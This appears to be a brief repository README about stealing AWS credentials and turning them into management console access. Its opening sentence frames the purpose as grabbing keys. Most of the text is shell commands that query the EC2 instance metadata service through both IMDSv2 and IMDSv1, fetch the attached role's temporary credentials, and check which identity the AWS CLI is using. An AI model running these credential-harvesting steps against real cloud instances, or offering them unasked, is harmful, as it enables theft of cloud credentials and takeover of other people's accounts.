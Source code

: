 Grab AWS keys and than use this script to gain managment console access with the access provided by the keys.

### Grabbing creds with IMDSv2
# 1) get IMDSv2 token
```sh
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
```
# 2) get the role name attached to the instance
```sh
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/)
```
# 3) get the temporary credentials JSON
```sh
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME
```
### Grabbing creds with IMDSv1
```sh
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### Using AWS CLI
# if instance role exists, aws cli uses it automatically; but you can also fetch metadata as above
```sh
aws sts get-caller-identity
```
# To view which creds CLI is using:
```sh
aws configure list
```
